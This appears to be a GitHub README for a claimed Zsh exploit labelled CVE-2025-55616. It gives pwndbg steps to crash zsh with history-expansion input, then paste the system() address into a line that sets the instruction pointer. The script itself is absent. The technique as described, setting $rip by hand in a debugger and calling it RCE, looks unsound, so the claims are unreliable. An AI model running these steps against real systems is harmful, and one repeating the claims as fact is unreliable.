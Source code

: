 
# CVE-2025-55616
## Author: Rana M.Sinan Adil
- ## **Vulnerability Found in Zsh leading RCE through History Expression**


# Key Points
 To Run this exploit:  **just change the ip address and the "p system" in exploit**, because i also tried this in my second laptop, and to change it run this following command in gdb (especially in pwndbg ):
```bash
$ gdb zsh -f (in terminal)

pwndbg> run -f

username% ! (username will be your,s just write ! )

username% !!11111111111 (same here just write  !!11111111111 )

pwndbg> p system
```
 after getting "p system" address just change it in 
### the following line in exploit: 

```
b'set $rip =  0x7ffff7cc9110', (use your p system address in place of 0x7ffff7cc9110
```
## Description

 This vulnerability allows local attackers to achieve Arbitrary Code Execution (RCE) with the privileges of the user running the Zsh process.

## Usage
```
python3 CVE-2025-55616.py
```
